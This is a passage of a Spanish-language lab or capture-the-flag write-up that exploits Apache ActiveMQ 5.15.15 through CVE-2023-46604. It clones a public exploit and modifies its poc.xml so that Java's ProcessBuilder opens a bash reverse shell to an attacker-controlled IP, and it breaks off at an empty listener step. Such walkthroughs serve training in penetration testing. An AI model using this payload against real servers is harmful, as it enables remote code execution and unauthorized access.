 ```bash
|Name|**localhost**|
|Version|**5.15.15**|
|ID|**ID:52f59c06b8ec-39523-1751830194762-0:1**|
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora buscaremos en internte un exploit para esta version:
[Exploit](https://github.com/NKeshawarz/CVE-2023-46604-RCE) Tenemos este explit desde internet que podemos usar para ejecutar comandos:
```bash
git clone https://github.com/NKeshawarz/CVE-2023-46604-RCE --depth=1
```

Ahora tendremos la siguiente carpeta: **CVE-2023-46604-RCE**, Cuando ingresamos tendremos que modificar el archivo **poc.xml** para alli inyectar el comando que queremos que se ejecute:
```bash
File: poc.xml
───────────────────────────────────────────────────────────────────────────────────────────────────────────────
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
                <!-- <value>bash</value> # Comando inyectado
                <value>-c</value> # Comando inyectado
                <value>touch /tmp/success</value> --> # Comando inyectado
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Ahora quedaria asi:
```bash
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
### Ejecucion del Ataque
Primero nos ponemos en escucha en nuestra maquina atacante para recibir la conexion
```bash
```